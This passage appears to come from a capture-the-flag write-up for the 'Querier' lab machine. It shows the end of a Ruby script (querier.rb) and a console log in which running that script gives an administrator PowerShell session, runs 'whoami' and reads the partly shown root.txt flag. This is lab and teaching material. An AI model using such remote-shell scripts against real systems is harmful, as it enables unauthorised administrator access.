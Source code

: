 ```ruby
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```

```
# ruby querier.rb
PS querier\administrator@QUERIER Documents> whoami
querier\administrator
PS querier\administrator@QUERIER Documents> type c:\users\administrator\desktop\root.txt
b19c37...
```
